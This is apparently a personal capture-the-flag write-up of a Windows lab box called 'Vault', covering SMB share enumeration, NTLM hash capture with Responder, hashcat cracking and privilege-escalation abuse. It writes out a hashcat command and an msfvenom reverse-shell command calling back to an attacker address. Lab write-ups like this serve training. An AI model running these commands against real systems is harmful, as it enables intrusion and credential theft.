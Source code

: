 # Vault

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

i add the domain in my hosts file and look for anonymous access and smb shares:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The write permission on a share is rather unusual to my knowledge in those types off boxes but i already saw it during some previous stuff so i tried using responder to catch some NTML creds:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this is rather strange since i did not do anything, maybe something to do with the fact that i added the domain in my hosts file idk. since i won't be lucky like this every time here is a good article about abusing NTLM relay attacks:

{% embed url="https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/" %}

Or this one:

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

Then i launch my hashcat:

```
hashcat -m 5600 /usr/share/wordlists/rockyou.txt.gz ntmlhash.txt
```

{% hint style="info" %}
_**added after completing the box**_: I looked at the WU to maybe discover other routes or techniques and this writeup does a very good job at explaining how to exploit writeable shares&#x20;
{% endhint %}

and i discovered the password and quickly understand why this box is rated easy:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok i didn't say anything i can't read proof.txt yet:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i quickly see that i have SeBackupPrivilege

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md" %}

So i follow all the steps and manage to dump the admin hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and it does not work lol:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I looked and this account does not have winrm rights, ouch the box seems a bit trickier than expected

I thought to myselft that i jumped on SeBackupPrivilege so quickly that i did not look into the other privileges such as the restore privilege:

{% embed url="https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------" %}

After looking at how the script works we need to craft a reverse shell exe to use it as an argument:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f exe -o reverse.exe
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

for some reason it did not work until i put the absolute path of reverse.exe
